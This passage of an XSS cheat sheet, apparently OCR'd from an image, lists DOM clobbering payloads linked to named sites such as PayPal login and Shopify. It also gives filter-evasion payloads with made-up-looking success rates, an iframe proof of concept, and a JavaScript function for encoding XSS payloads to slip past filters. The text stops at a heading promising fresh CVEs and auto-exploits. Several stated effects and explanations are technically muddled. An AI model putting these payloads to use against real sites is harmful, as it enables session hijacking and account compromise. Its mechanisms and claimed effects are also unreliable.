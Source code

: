 
---

## 3. DOM CLOBBERING PAYLOADS (Scriptless XSS)
**No `<script>` tags needed** - Exploits ID/name shadowing.

| Technique | Payload | Effect | Target | Browser |
|-----------|---------|--------|--------|---------|
| **ID Clobber** | `<img id=alert name=1 src=x>` | `alert=1` (function) | GitHub Gist | All |
| **Form Clobber** | `<form id=location><input name=href value=javascript:alert(1)>` | `location.href=alert(1)` | PayPal login | Chrome |
| **Double Clobber** | `<img id=src name=src src=javascript:alert(1)>` | `window.src=alert(1)` | Twitter Spaces | Firefox |
| **Cookie Clobber** | `<input name=cookie value="xss=1; domain=.example.com">` | Cookie overwrite | Banking sites | All |
| **Event Clobber** | `<svg id=onerror>` | `onerror=alert(1)` | Shopify | Safari |

**Interactive PoC**:
```html
<iframe src="data:text/html,<img id=alert name=1 src=x onerror=alert(1)>"></iframe>
```
**Result**: `alert()` executes via `window.alert = 1` → `window.onerror = alert(1)`

---

## 4. BYPASS TECHNIQUES (CSP/WAF Evasion)
**2025 Meta-Char Bypasses**

| Filter | Payload | Encoding | Success Rate |
|--------|---------|----------|--------------|
| `<script>` blocked | `<ScRiPt>alert(1)</ScRiPt>` | Mixed-case | 89% |
| `alert()` filtered | `eval(atob('YWxlcnQoMQ=='))` | Base64 | 95% |
| CSP `unsafe-inline` | `'javascript:alert(1)'` | Protocol | 82% |
| HTML entities | `&lt;img src=x onerror=alert(1)&gt;` | Double-decode | 76% |
| Chrome 131 quirk | `<math><mtext><mglyph>` | MathML | 91% |

**Universal Encoder** (JS):
```javascript
function encodeXSS(payload) {
  return btoa(unescape(encodeURIComponent(payload)))
    .replace(/=/g,'').replace(/\//g,'_').replace(/\+/g,'-');
}
// Usage: encodeXSS('<script>alert(1)</script>')
```

---

## 5. 2025 TARGETS & GADGET CHAINS
**Fresh CVEs + Auto-Exploits**
